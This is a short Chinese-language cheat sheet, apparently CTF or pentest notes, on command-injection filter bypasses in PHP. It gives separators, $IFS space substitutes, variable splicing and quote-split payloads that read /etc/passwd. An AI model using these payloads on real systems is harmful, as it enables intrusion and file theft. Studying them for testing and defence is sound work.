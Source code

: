 

### 命令终止符

```php
#以下终止符只适用于PHP环境
%0a 换行符
%0d 回车符
```



### 截断符号

```php
$
;
|
&
-
(
)
{
}
反引号
||
&&
%0a #有时可当空格使用
```



------

## 命令执行漏洞过滤绕过

### 绕过空格过滤

```php
< 、<>、%09(tab键)、%20、$IFS$9、$IFS$1、${IFS}、$IFS等，还可以用{} 比如 {cat,flag}
```



### 关键字黑名单绕过

#### 拼接绕过黑名单

```php
a=l;b=s;$a$b
a=fl;b=ag;cat $a$b
```



#### **单引号，双引号绕过**

```php
c""at /etc/passw""d
ca''t /etc/passw''d
```
